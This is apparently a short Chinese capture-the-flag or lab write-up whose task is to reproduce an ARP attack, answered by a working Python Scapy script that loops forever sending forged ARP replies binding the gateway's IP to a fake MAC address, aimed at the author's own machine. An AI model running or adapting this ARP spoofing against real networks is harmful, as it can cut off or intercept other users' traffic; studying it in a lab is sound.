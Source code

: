 # 🏴 自下而上的窃听攻击

## 题目

复现一次 ARP 攻击。

## 题解

自己攻击自己！

```python
import time

from scapy.all import (
    getmacbyip,
    ARP,
    Ether,
    sendp
)


my_ip = "192.168.1.106"
gateway_ip = "192.168.1.1"
my_mac = getmacbyip(my_ip)
gateway_mac = getmacbyip(gateway_ip)


pkt = Ether(src=my_mac, dst=my_mac) / ARP(op=2, hwsrc="11:11:11:11:11:11", psrc=gateway_ip, hwdst=my_mac, pdst=my_ip)

while True:
    sendp(pkt)
    time.sleep(2)
```